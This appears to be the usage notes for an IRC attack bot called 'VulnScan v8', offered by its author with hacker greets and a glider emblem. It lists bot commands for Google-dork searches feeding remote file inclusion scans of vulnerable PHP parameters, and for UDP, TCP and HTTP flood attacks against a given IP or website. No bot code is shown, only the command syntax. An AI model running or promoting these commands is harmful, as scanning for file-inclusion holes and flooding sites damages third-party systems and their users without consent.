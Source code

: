 ## VulnScan v8 -Final- By Morgan
 Colors by delet

## Note:
DO NOT REMOVE COPYRIGHTS ...

|_|0|_|
|_|_|0|
|0|0|0|

## New functions:
New l33t colors

Fixed Google

## Scan command:
!morgan !eval @gstring='google%20dork';

!morgan @rfiscan vulnfile.php?vulnvar=

## DDoS commands:
Udp : !morgan @udpflood IP packet-size time

Tcp : !morgan @tcpflood IP port time

Http: !morgan @httpflood www.website.com time

## Greets to:

All irc.root.net.ve - #Morgan users...
Hackwood

Enjoy the bot ....
/Morgan

